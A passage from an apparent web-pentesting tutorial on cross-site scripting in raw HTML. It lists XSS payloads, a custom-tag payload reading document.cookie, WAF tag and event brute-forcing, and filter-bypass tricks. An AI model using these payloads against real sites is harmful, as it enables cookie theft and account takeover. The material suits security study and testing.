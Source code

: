 ## Injecting inside raw HTML

When your input is reflected **inside the HTML page** or you can escape and inject HTML code in this context the **first** thing you need to do if check if you can abuse `<` to create new tags: Just try to **reflect** that **char** and check if it's being **HTML encoded** or **deleted** of if it is **reflected without changes**. **Only in the last case you will be able to exploit this case**.\
For this cases also **keep in mind** [**Client Side Template Injection**](../client-side-template-injection-csti.md)**.**\
_**Note: A HTML comment can be closed using `-->` or `--!>`**_

In this case and if no black/whitelisting is used, you could use payloads like:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
```

But, if tags/attributes black/whitelisting is being used, you will need to **brute-force which tags** you can create.\
Once you have **located which tags are allowed**, you would need to **brute-force attributes/events** inside the found valid tags to see how you can attack the context.

### Tags/Events brute-force

Go to [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click on _**Copy tags to clipboard**_. Then, send all of them using Burp intruder and check if any tags wasn't discovered as malicious by the WAF. Once you have discovered which tags you can use, you can **brute force all the events** using the valid tags (in the same web page click on _**Copy events to clipboard**_ and follow the same procedure as before).

### Custom tags

If you didn't find any valid HTML tag, you could try to **create a custom tag** and and execute JS code with the `onfocus` attribute. In the XSS request, you need to end the URL with `#` to make the page **focus on that object** and **execute** the code:

```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
```